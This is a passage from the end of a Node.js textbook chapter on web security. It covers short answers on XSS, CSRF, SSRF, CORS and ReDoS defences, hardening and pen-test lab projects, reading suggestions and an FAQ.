Model answer: XSS runs attacker script on your origin; CSRF makes the victim's browser send authenticated requests from the attacker's origin using ambient cookies. Defend with SameSite cookies, no state change on GET, Origin/Referer verification, and CSRF tokens (or avoid cookie auth for APIs). XSS defeats CSRF protections, so it must be fixed too.
3. What is SSRF and how would you defend against it? Model answer: The server is induced to make requests to attacker-chosen URLs, reaching internal services or cloud metadata. Defend with allow-listed hosts, resolving DNS and rejecting private/loopback/link-local addresses (not string blocklists), refusing redirects, timeouts and size limits, DNS pinning against rebinding, egress network controls and IMDSv2.
4. What does CORS do, and what mistakes do people make?
Model answer: It lets a server relax the browser's same-origin policy by declaring which origins' scripts may read its responses; it's not authentication and doesn't affect non-browser clients. Mistakes: reflecting any origin with credentials, * with credentials (rejected), allowing null, treating CORS as an access control, and forgetting Vary: Origin.
5. How can a single request take down a Node.js server?
Model answer: Node's single thread means any long synchronous operation blocks everyone: ReDoS from nested-quantifier regexes, huge JSON.parse or sorts, synchronous crypto, giant payloads. Mitigate with input length caps, safe/linear-time regexes (RE2), body size limits, worker threads for CPU work, timeouts, and rate limiting. Our test: a 28-character input stalled the loop for ~2.5 s and delayed an innocent request.
23.26 3 Real Projects
Project 1: Security Hardening Sprint (intermediate, ~10 hours). Take ShopLine's API and apply this chapter's controls (Helmet/CSP, CORS allow-list, CSRF, body/time limits, SSRF-safe fetch, safe regexes, strict schemas). Add an automated "attack suite" that replays each exploit from the lab and fails CI if any succeeds.
Project 2: SSRF-Safe Fetch Library (intermediate–advanced, ~10 hours).
Publish a small library: URL parsing, allow-lists, DNS resolution with IP pinning, private-range detection, redirect policy, size/time limits, and a test corpus of tricky URLs (decimal, octal, IPv6-mapped, userinfo @, unicode dots, rebinding simulator).
Project 3: Pen-Test Report (intermediate, ~12 hours). Using a deliberately vulnerable app (Juice Shop/DVWA/crAPI) in your own sandbox, find and exploit ten issues across XSS, injection, access control and misconfiguration; write a professional report (impact, reproduction steps, fixes, CVSS-style severity) and fix the corresponding code in a forked copy.
23.27 Further Reading
- OWASP: Top 10 (2021), API Security Top 10 (2023), ASVS, and the Cheat Sheet Series (XSS Prevention, CSRF, SSRF, Content Security Policy, Prototype Pollution Prevention, REST Security, Node.js Security).
- PortSwigger Web Security Academy: free labs for every topic here.
- MDN: Same-origin policy, CORS, Content Security Policy, Set-Cookie (SameSite), Strict-Transport-Security.
- Helmet and Node.js security best-practices documentation; Node.js Security Working Group advisories.
- Papers/write-ups: Capital One breach analyses (SSRF + IMDS), "Prototype pollution attacks in Node.js" (Arteau et al.), Cloudflare's ReDoS post-mortem (2019).
- The Web Application Hacker's Handbook and Real-World Bug Hunting.
Up next → Chapter 24: Testing Strategy
You've now attacked your own code by hand. Next: make those checks automatic and permanent. The testing pyramid, unit tests with Node's built-in runner and Vitest, integration tests with real PostgreSQL and Redis, HTTP-level API tests, contract tests, mocking (and when not to), test data and fixtures, flaky tests, coverage, mutation testing, load testing, and wiring it all into CI, applied to the ShopLine modules you've built.
Web: frequently asked questions
Does CORS protect my API?
No. CORS only controls whether a browser lets page JavaScript read a cross-origin response. curl and attackers ignore it, so you still need authentication and authorization.
How do I prevent SSRF?
Allow-list destinations, resolve DNS and block private, loopback and link-local addresses, do not follow redirects automatically, set timeouts and restrict egress at the network level.
What is the difference between XSS and CSRF?
XSS runs attacker script on your site. CSRF makes a victim's browser send authenticated requests from the attacker's site using cookies. Fix XSS first, because it defeats CSRF defences.
What is ReDoS?
A regular expression with nested quantifiers can take exponential time on crafted input and, because Node is single-threaded, freeze the whole server. Cap input length and avoid nested quantifiers.